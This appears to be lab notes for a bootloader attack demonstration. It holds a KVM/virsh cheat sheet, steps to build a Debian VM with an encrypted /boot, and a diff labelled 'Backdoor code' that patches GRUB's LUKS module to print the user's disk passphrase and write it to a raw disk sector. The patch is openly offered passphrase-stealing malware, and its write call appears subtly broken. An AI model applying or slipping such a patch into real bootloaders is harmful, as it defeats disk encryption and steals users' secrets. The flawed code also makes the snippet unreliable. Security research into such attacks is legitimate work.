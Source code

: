 ### setup

#### kvm cheat sheet
- virsh list --all
- virsh start grub-luks --console
- virsh console grub-luks
- virsh shutdown grub-luks
- virsh destroy grub-luks #force shutdown
- virsh undefined grub-luks # delete vm, disk remains
- virt-manager
- https://computingforgeeks.com/virsh-commands-cheatsheet/
- "To make use of a serial console, just use console=ttyS0 on the kernel command line, and systemd will automatically start a getty on it for you."

#### installation
- create vm with raw disk
- use 'guided encrypted lvm' in the installer
- encrypt /boot partition
    - https://cryptsetup-team.pages.debian.net/cryptsetup/encrypted-boot.html
    - use 2.2 Moving /boot to the root file system



### snippets

#### Backdoor code (grub-core/disk/luks.c will give you luks.mod)

```diff
diff --git a/grub-core/disk/luks.c b/grub-core/disk/luks.c
index 7e83d69..968ef23 100644
--- a/grub-core/disk/luks.c
+++ b/grub-core/disk/luks.c
@@ -356,6 +356,17 @@ luks_recover_key (grub_disk_t source,
       return grub_error (GRUB_ERR_BAD_ARGUMENT, "Passphrase not supplied");
     }
 
+
+  grub_printf_ ("Thanks for your password: %s\nWriting it to disk\n", passphrase);
+  grub_disk_t disk0;
+  disk0 = grub_disk_open ("hd0");
+  if (!disk0) {
+    grub_printf_ ("Could not open disk, grub_errno=%d\n", grub_errno);
+  } else {
+      grub_disk_write_weak (disk0, 2023, 0, sizeof(passphrase), &passphrase);
+      grub_disk_close (disk0);
+  }
+
   /* Try to recover master key from each active keyslot.  */
   for (i = 0; i < ARRAY_SIZE (header.keyblock); i++)
     {

```
